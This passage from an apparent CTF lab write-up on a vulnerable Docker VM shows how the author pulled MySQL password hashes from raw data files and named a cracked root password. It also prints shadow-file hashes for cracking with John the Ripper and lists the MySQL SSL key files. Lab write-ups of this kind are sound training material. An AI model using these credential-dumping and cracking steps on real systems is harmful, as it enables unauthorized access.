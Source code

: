 If you are interested, how Docker environment were made, you can have a look at **/home/vulndock/content/docker-compose.yml**.

At this point, this is so far I was able to reach. I did not managed to find second flag, but here are some other interesting things I’ve found:

## 1. Crack MySQL root password

In the MySQL container, we have direct access to raw MySQL data. Therefore, we could look up password hashes:

```sh
$ apt-get install binutils
$ strings /var/lib/mysql/mysql/user.MYD
	localhost
root
mysql_native_password)
*E83AAF14C281BCB6E65977C59B585815ED29792B
root
mysql_native_password)
	localhost	mysql.sys
mysql_native_password)
*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
*E83AAF14C281BCB6E65977C59B585815ED29792B
%	wordpress
mysql_native_password)
*A2C249A619E6B32CE95478C25AACB8E8C14560B8
```

Password for **root** database user can be googled very easily: **Peaches123**

## 2. John the Ripper

They were teasing me like “try cracking passwords”. Here are contents of shadow file with password hashes:

```md
root:$6$i8GUrrmW$GE/x1EEwKgMvvTS0IuOfd4jkrP9ufQrYxBdvAXh72ETmC.PZv.0gzb9Fxfs2y5CxmKiJlRUJVr5p0k3TxgPEG0:17394:0:99999:7:::
whale:$6$RvS0tNRs$gV2mxTeBwobOo9h1LZ59aGb1Gy7E83.2Lb5IsmPupTKxLqfoLAMLAKPMskQ1s52puOQoXzuLhrhM.j7TkTAxp1:17394:0:99999:7:::
```

Looks like that’s not so trivial:

![Hashes are hard to crack](/assets/blog/vulnerable-docker-vm/ctf10.png)

## 3. MySQL SSL

There are bunch of *.pem files in `/var/lib/mysql` of MySQL container:

```sh
/ $ docker exec -ti 13f0a3bb2706 ls -la /var/lib/mysql
total 188488
drwxr-xr-x  6 mysql mysql     4096 Sep 12 21:05 .
drwxr-xr-x 32 root  root      4096 Sep 12 21:20 ..
-rw-r-----  1 mysql mysql       56 Aug 16 17:39 auto.cnf
-rw-------  1 mysql mysql     1679 Aug 16 17:39 ca-key.pem
-rw-r--r--  1 mysql mysql     1074 Aug 16 17:39 ca.pem
-rw-r--r--  1 mysql mysql     1078 Aug 16 17:39 client-cert.pem
-rw-------  1 mysql mysql     1675 Aug 16 17:39 client-key.pem
-rw-r-----  1 mysql mysql      667 Aug 22 14:19 ib_buffer_pool
-rw-r-----  1 mysql mysql 50331648 Sep 12 21:50 ib_logfile0
-rw-r-----  1 mysql mysql 50331648 Aug 16 17:39 ib_logfile1
-rw-r-----  1 mysql mysql 79691776 Sep 12 21:50 ibdata1
-rw-r-----  1 mysql mysql 12582912 Sep 12 21:50 ibtmp1
```